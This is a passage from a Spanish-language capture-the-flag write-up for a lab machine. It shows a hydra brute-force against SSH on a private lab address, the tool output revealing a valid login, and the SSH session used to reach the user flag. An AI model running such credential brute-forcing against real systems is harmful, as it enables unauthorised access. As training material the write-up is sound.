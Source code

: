 
<h2 id="FuerzaBruta">Aplicando Fuerza Bruta al Servicio SSH y Ganando Acceso a la Máquina Víctima</h2>

Como no tenemos un usuario al que le podamos aplicar fuerza bruta, vamos a utilizar un wordlist de usuarios para aplicar la fuerza bruta.

Utilizaremos la herramienta **hydra** para esto:
```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.90
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-06 11:50:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 118993316406545 login tries (l:8295455/p:14344399), ~7437082275410 tries per task
[DATA] attacking ssh://192.168.10.90:22/
[22][ssh] host: 192.168.10.90   login: info   password: ******
[STATUS] 14344681.00 tries/min, 14344681 tries in 00:01h, 118993302061864 to do in 138254:51h, 16 active
[STATUS] 4781741.33 tries/min, 14345224 tries in 00:03h, 118993302061322 to do in 414748:51h, 15 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```
Bastante vulnerable esa contraseña.

Comprobemos si son válidos ese usuario y contraseña:
```bash
ssh info@192.168.10.90
info@192.168.10.90's password: 
Linux salyazucar 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64
...
Last login: Fri Jun  6 19:51:12 2025
Could not chdir to home directory /home/NULL: No such file or directory
info@salyazucar:/$ whoami
info
```
Curiosamente, estamos en la raíz, más no en el directorio del **usuario info**.

Busquemos la flag:
```bash
info@salyazucar:/$ cd /home/info
info@salyazucar:/home/info$ cat user.txt
...
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
